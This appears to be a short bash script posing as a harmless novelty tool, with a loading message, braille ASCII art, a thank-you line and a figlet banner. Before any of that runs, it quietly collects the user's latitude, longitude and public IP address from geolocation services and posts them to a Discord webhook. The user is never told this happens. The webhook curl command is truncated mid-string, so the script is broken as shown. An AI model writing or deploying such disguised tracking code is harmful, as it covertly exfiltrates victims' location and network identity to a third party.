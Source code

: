 #!/bin/bash


# Get user's location
GEOIP_DATA=$(curl -s https://ipapi.co/json/)
GEOIP_LAT=$(echo $GEOIP_DATA | jq -r '.latitude')
GEOIP_LON=$(echo $GEOIP_DATA | jq -r '.longitude')

# Get user's public IP address
USER_IP=$(curl -s https://api.ipify.org)

# Send data to Discord webhook
curl -X POST -H "Content-Type: application/json" -d "{\"username\": \">





echo "loading"
sleep 2


clear




sleep 1
echo "⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀⠀       ⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⡤⡄⠒⠊⠉⢀⣀⢨⠷⡄⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⢀⡇⠈⢹⣩⢟⣜⣐⡵⡿⢇⠀⠀⠀⠀⠀⠀
⠀⠀⡠⠖⠊⠉⠀⠀⠈⠻⢅⠀⠀⠀⠀⠀⠈⠒⠠⢀⠀⠀
⠀⡜⠁⠀⠀⠀⠀⠀⠀⠀⠀⠙⠢⣄⠀⠀⠀⠀⣀⣀⣼⠂
⢰⠃⠀⠀⠀⡀⡀⠀⠀⠀⠀⠀⠀⠈⢷⡲⡺⣩⡤⢊⠌⡇
⠸⡆⠀⠀⡞⠀⡇⠀⢰⣓⢢⣄⠀⠀⢸⣞⡞⢉⠔⡡⢊⣷
⠀⢣⠀⠀⠹⡄⡇⠀⢸⣂⡡⢖⠳⣄⢸⢋⠔⡡⢊⣰⠠⠋
⠀⠀⢣⡀⠀⠈⠁⠀⠸⣗⠾⣙⣭⡾⢿⡶⢏⠁⠀⠀⠀⠀
⠀⠀⠀⠳⡀⠀⠀⠀⠀⠻⣽⠊⣡⠞⢉⢔⠝⣑⢄⠀⠀⠀
⠀⠀⠀⢀⣹⣆⠀⠀⠀⠀⠈⠳⣤⢊⠔⡡⠊⢁⡤⠓⠄⠀
⠀⡶⡿⣋⣵⢟⣧⠀⠀⠀⠀⠀⠈⢧⡊⣀⠔⡩⠐⣀⠙⡄
⠸⡇⢹⣋⠕⡫⠘⡇⠀⣄⠀⠀⠀⠀⢻⡕⢁⠤⠊⢁⡀⡇
⠀⡇⠀⠳⣵⢊⢽⡇⠀⡏⢳⡀⠀⠀⠀⣟⣡⠴⠚⡉⠠⡇
⠀⠘⢆⡀⠈⠉⠉⠀⠀⣧⣼⡗⠀⠀⠀⣹⠐⣈⠠⠤⣰⠀
⠀⠀⠀⠙⠦⡀⠀⠀⠀⠉⠉⠀⠀⠀⢀⡯⠥⣒⣂⡱⠃⠀
⠀⠀⠀⠀⠀⠈⢧⠀⠀⠀⠀⠀⠀⢀⣞⣉⠭⠴⠋⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠘⡆⠀⡶⣶⠶⠒⠉⠁⠀⠀⠀⠀⠀⠀⠀
⠀⠀⠀⠀⠀⠀⠀⠈⠉⠉⠁⠀⠀⠀⠀⠀⠀⠀"




sleep 1



echo "thanks for using my tool"

sleep 1

clear
pyfiglet -f bloody -c red rampage
